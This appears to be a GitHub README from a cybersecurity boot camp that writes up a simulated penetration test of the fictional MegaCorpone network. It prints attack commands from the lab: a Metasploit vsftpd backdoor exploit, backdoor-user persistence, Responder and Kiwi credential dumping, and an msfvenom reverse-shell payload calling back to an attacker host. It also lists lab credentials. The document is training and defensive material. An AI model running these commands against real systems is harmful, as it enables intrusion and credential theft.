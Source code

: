 # Challenges 16 &amp; 17: MegaCorpone/Offensive Security 
Access to Penetration Report: <a href="https://docs.google.com/document/d/1Yl3H_Jfuvs6dhNGDz9ni1OaUGltc31MOrMUnuSMri08/edit?usp=sharing"> MegaCorpOne Penetration Test Report

## Objective Summary
This project highlights offensive security techniques practiced during the University of California, Irvine's Cybersecurity Boot Camp. It involved simulating penetration testing on the fictional MegaCorpone Corporation to uncover and exploit vulnerabilities within their Linux servers and Windows servers. The objective was to identify potential security weaknesses and demonstrate real-world offensive security methodologies.
 
## Project Highlights
Key Achievements:
- Conducted vulnerability assessments and penetration tests on MegaCorpone’s network.
- Exploited misconfigurations and weaknesses in Linux and Windows server environments.
- Delivered actionable security insights and recommendations based on findings.

### Technical Skills Gained
- Server Security:
   - Conducted vulnerability scans and exploited misconfigurations on Linux and Windows servers.
   - Practiced privilege escalation to simulate full system compromise.
- Penetration Testing Methodology:
   - Followed the 5-phase penetration testing process: Reconnaissance, Scanning, Exploitation, Persistence, and Privilege Escalation.
   - Used the MITRE ATT&CK Framework to guide structured attack simulations.
- OSINT & Reconnaissance:
   - Leveraged OSINT tools like OSINT Framework, Google Dorking, and GitHub for information gathering.


### Tools & Environments Used
| Category                                      | Tools Used       |
|-----------------------------------------------|----------------------------|
| <b>Penetration Testing Tools</b>       | Metasploit, Searchsploit, MsVenom |
| <b>Vulnerability Scanning</b>  |  Nmap, Zenmap, Nessus | 
| <b>OSINT Tools</b> | OSINT Framework, Google, GitHub, Shodan.io | 
| <b>Virtual Environments</b> |  Kali Linux, Windows 10, Hyper-V Manager, Azure Windows VMs | 



## Project Write up
### Scenario Overview
MegaCorpone, a fictional company, engaged penetration testers (CTP, LLC) to evaluate the security of its web application, Linux, and Windows servers. As they prepared for launch, the goal was to identify and remediate vulnerabilities to ensure a secure deployment.

### Summary of Project Steps

1. <b>Reconnaissance</b>

Gathered publicly available information using Google Dorking and OSINT tools to uncover:
- Website asset files
- Employee usernames and emails
- Sensitve company data
- Server details with open ports (22, 80, 443)

Google Dorking Example:
google: site:megacorpone.com intext:email OR filetype:pdf OR filetype:doc
____________________
2. <b>Scanning & Enumeration</b>

Performed Nmap/Zenmap scans to discover network assests and vulnerabilities:
- Detected open ports (22, 80, 443) and the server OS (Apache/2.4.62 on Debian) on Linux server.
- Identified two additional Windows machines and their open ports.

 Nmap Scan Command Example:
- nmap -sV 172.22.117.150 (service version scan)
____________________
3. <b>Exploitation of Linux Server</b>
- Used MSFconsole to exploit vsftp 2.3.4 service on port 21 to gain access.
- Extracted stored credentials from system text files.
- Used credentials to SSH into the server for further exploitation.

MSFconsole Exploit Example:
- msfconsole -q
- use exploit/unix/ftp/vsftpd_234_backdoor
- set RHOSTS 172.22.117.150
- exploit

 SSH into Linux Server:
- ssh msfadmin@172.22.117.150

Credentials Discovered:
| Username     | Password |
| ------------- | -------- |
| msfadmin | cybersecurity |
| tstark   | Password! | 
____________________
4. <b>Persistence & Credential Harvesting</b>
- Created a persistent backdoor user account to maintain system access.
- Used MSFconsole and LLMNR protocol to capture additional credentials from the Windows 10 machine.
- Exploited Windows DC machine using MSFvenom and Kiwi tools to extract further login credentials.

 Creating a New User for Persistence Example:
- sudo adduser systemmd:password
- sudo usermod -aG admin systemd
- ssh -p 10022 systemd@172.22.117.150

 Kiwi Tools Example:
- kiwi_cmd lsadump::cache
  
 Capturing Windows Credentials Example:
- sudo responder -I eth1 -v

____________________
5. <b>Lateral Movement & Privilege Escalation</b>
- Used admin credentials to move laterally from Windows 10 to the Domain Controller (WinDC01).
- Deployed MSFvenom payloads to escalate privileges and compromise additional systems.

MSFvenom Payload:
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.20 LPORT=4444 -f exe > shell.exe

____________________
### Conclusion

CTP, LLC’s penetration test successfully uncovered critical security vulnerabilities in Megacorpone’s infrastructure. The test demonstrated how weak passwords, exposed usernames, unprotected ports, and vulnerable services could be exploited to gain unauthorized access. Addressing these security gaps is imperative to prevent potential cyber threats, data breaches, and ransomware attacks.

#### Key Takeaways:
- <b>Strengthen Password Policies:</b> Enforce multi-factor authentication and strong password requirements.
- <b>Update or Disable Daemon Services:</b> Regularly update or disable unnecessary services to reduce attack surfaces.
- <b>Secure Open Ports:</b> Restrict unnecessary services and implement firewall rules.
- <b>Monitor for Unauthorized Access:</b> Deploy intrusion detection systems (IDS) to detect suspicious activity.







